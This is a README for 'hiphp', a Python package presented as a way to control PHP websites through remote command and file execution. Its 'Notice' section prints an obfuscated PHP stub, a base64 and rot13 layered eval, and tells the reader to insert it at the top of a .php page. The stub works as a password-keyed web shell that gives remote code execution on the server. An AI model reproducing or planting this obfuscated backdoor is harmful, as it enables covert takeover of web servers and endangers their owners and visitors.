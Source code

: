 hiphp for control php websites
==========================
A package for controlling a php-based website.

.. image:: https://travis-ci.com/byRo0t96/hiphp.svg?branch=main

Installation
============

.. code::

    pip install hiphp

Usage
=====
.. code:: python

    from hiphp import hiphp

    hiphp("<PASSWORD>","http://LINK/TO/YOUR/PHP/FILE",<OPTIONS>).run()
	
	
Notice
=====
In the event that the call key to the site is not recognized, you will see a code like this:

.. code:: php
    <?php
	eval(str_rot13(base64_decode(str_rot13(base64_decode('cWFaYldTOVRIeElXSHhJb1cxSVVFMEFzRlJNRkVJOUJJU1dPRWxxcUNHMGFaUUx3QlNSM0F3RDBBUjRsWndSbEIxUmtDR1pqWUd0MFdHRDVDbU4xQ3lOaktHeDFzR1NCWEdOMkJ3SUNxd1ZscnhObFpRT2FIUU9BQkdEYlp3dTdIUjlvQkdEOEFtTnVHMU54QXdOekdtRXNBbU5lQUg4a0hHTG1abVYxR21wM1pTWjVXbHk3cGFPMUx2cHdMMmthcUpXdVdtZzJwbHUyTXpNbE1sdHhLMEFQRXhxb1czT3ZyYWNoTEtSYUtGeGNyM1djb2F4YldTOVFEeE1VSmxxakxhYzZvelNrVzEwY0IzMWxuM01hQjMwPQ==')))));
	?>


You must add it to the top of the page that you will request later via the link, knowing that it does not matter to the file. All that matters is taking into account the file type it should be '.php'.

Example
=====
.. code:: python

    from hiphp import hiphp

    # Example:1
    # CLI:
    hiphp("123","http://localhost/hiphp/index.php").run()#This example will open up a command line interface.
	
    # Example:2
    # Command:
    hiphp("123","http://localhost/hiphp/index.php",False,False).run("-c echo 'hi';")#Command lines start after '-c'.

    # Example:3
    # Command:
    p1=hiphp("123","http://localhost/hiphp/index.php",True,False).run("-c echo 'hi';")#Command lines start after '-c'.
    print(p1)

    # Example:4
    # File:
    hiphp("123","http://localhost/hiphp/index.php",False,False).run("example_4.php")#The file type does not matter.

    # Example:5
    # File:
    p1=hiphp("123","http://localhost/hiphp/index.php",True,False).run("example_5.txt")#The file type does not matter.
    print(p1)

.. begin changelog

Changelog
=========

0.1.0
-----
- New build.
- Fix bugs.

0.0.4
-----
- Fix bugs.

0.0.2
-----
- Fix bugs.
- Add help list.
- Add Executing from files.

0.0.1
-----
- First public release.

.. end changelog
